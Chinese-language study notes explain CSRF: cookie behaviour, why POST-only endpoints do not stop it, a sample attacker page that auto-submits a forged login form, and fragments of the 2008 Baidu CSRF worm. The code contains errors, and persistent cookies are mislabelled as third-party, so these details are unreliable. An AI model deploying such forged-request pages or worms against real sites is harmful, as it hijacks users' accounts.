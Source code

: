 #CSRF

Cross Site Request Forgery


##Classic CSRF attack

![Classic CSRF attack](img/csrf attack.png)

##浏览器的Cookie策略

攻击者通过实施CSRF攻击之所以能够成功，是因为攻击者通过用户的浏览器成功发送了Cookie的缘故。
浏览器所持有的Cookie分为两种：临时Cookie（Session Cookie）和本地Cookie（Third-party Cookie）。
Third-party Cookie可以保持登录信息到用户下次与服务器的会话。下次访问同一网站时，用户会发现不必输入用户名和密码就已经登录了。而Session Cookie在用户退出会话的时
候就被删除了。
Third-party Cookie在生成时就会被指定一个Expire值，这就是Cookie的生存周期，在这
个周期内Cookie有效，超出周期Cookie就会被清除。
在浏览网站的过程中，若是一个网站设置了Session Cookie，那么在浏览器进程的生命周期内，即使浏览器新打开了Tab页，Session Cookie也都是有效的，这样攻击者伪装来自受信任用户的请求来访问受信任的网站就如正常一般了。


##POST请求无法防范CSRF


一些人认为CSRF攻击只能由GET请求发起，只要把重要的操作改成只允许POST请求，就能防止CSRF攻击。但是对于很多网站的应用来说，一些重要操作并未严格区分GET与
POST，攻击者可以使用GET来请求表单的提交地址。
如：
![POST CODE1](img/POST_1.png)
     <form action=”/login” id=”login” method=”post”>
     <input type=text name=”username” value=””/>
     <input type=password name=”password” value=””/>
     <input type=submit name=”submit” value=”submit”/>
     </form>
     
用户可以尝试构造一个GET请求：

http://localhost/login?username=a&password=a

如果服务器端已经区分了GET和POST，这样攻击者可以构造一个POST请求。
最简单的方法是在一个页面中构造一个form表单，然后使用JavaScript自动提交这个表单。
攻击者在www.attack.com/attack.html 中编写如下代码：

![POST CODE1](img/POST_2.png)
     <form action=”http://www.target,com/login” id=”login” method=”post”>
     <input type=text name=”username” value=””/>
     <input type=password name=”password” value=””/>
     <input type=submit name=”submit” value=”submit”/>
     </form>
     <script>
     var a = document.getElementById(“login”);
     a.inputs[0].value = “a”;
     a.inputs[1].value = “a”;
     f.submit();
     </script>

##CSRF Worm

2008年9月，国内的安全组织80sec公布了一个百度的CSRF worm

漏洞出现在百度用户中心的发送短消息功能中：

http://msg.baidu.com/?ct=22&cm=MailSend&tn=bmSubmit&sn=用户账户&co=消息内容

只需要修改参数sn，即可对指定的用户发送短消息。而百度的另外一个接口则能查询出某个用户的所有好友：

http://frd.baidu.com/?ct=28&un=用户账户&cm=FriList&tn=bmABCFriList&callback=gotfriends

将两者结合起来，可以组合成一个CSRFworm——让一个百度用户查看恶意页面后，将给他的好友发送一条短消息，然后这条短消息中又包含一张图片，其地址再次指向CSRF页面，使得这些好友再次执行上一个操作。

Step 1：

     var lsURL=window.location.href;
     loU = lsURL.split(“?”);
     if(loU.length>1)
     {
      var loallPm = loU[1].split(“&”);
     ....

定义蠕虫页面服务器地址，取得？和&符号后的字符串，从URL中提取感染蠕虫的用户名和感染者好友的用户名。

Step 2:

     var gotfriends = function (x)
     {
      for(i=0;i<x[2].length;i++)
        {
          friends.push(x[2][i][1]);
        }
     }
     loadtom(‘<script scr=”http://frd.baidu.com/?ct=28&un=”+lusername+”&cm=FriList&tn=bmABCFriList&callback=gotfriends&.tmp=&1=2”></script>’);
     
通过CSRF漏洞从远程加载受害者的好友tom数据，根据该接口的tom数据格式，提取好友数据为蠕虫的传播流程做准备。

Step 3：感染信息输出和消息发送的核心部分。

这个蠕虫很好地展示了CSRF的破坏性--即使没有XSS漏洞，仅仅依靠CSRF，也能够发起大规模蠕虫攻击。
